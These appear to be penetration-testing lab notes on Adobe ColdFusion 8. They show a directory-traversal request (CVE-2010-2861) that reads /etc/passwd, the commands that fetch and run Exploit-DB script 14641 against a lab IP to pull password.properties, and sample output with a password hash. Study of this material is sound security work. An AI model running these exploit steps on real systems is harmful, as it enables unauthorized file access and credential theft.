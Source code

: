 ### 🔎 Identifying Vulnerable Services

* ColdFusion 8 detected.
* Use `searchsploit` to identify known vulnerabilities:

```bash
$ searchsploit adobe coldfusion
```

#### 🔥 Relevant Exploits

* **Directory Traversal** (CVE-2010-2861) – Exploit ID: `14641`
* **Unauthenticated Remote Command Execution** (CVE-2009-2265) – Exploit ID: `50057`

## 🕳️ Directory Traversal – CVE-2010-2861

### 📖 Description

Directory traversal vulnerability allows remote attackers to read arbitrary files via the `locale` parameter.

### 🧪 Affected Files

Examples:

* `/CFIDE/administrator/settings/mappings.cfm`
* `/CFIDE/administrator/enter.cfm`
* `/logging/settings.cfm`

### 🔗 Malicious Request Example

```http
http://<target>/CFIDE/administrator/settings/mappings.cfm?locale=../../../../../etc/passwd
```

### 📂 Exploit Usage

```bash
$ searchsploit -p 14641
$ cp /usr/share/exploitdb/exploits/multiple/remote/14641.py .
$ python2 14641.py <host> <port> <file_path>
```

**Example:**

```bash
$ python2 14641.py 10.129.204.230 8500 "../../../../../../../../ColdFusion8/lib/password.properties"
```

### 📜 Sample Output

```properties
#Wed Mar 22 20:53:51 EET 2017
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true
```
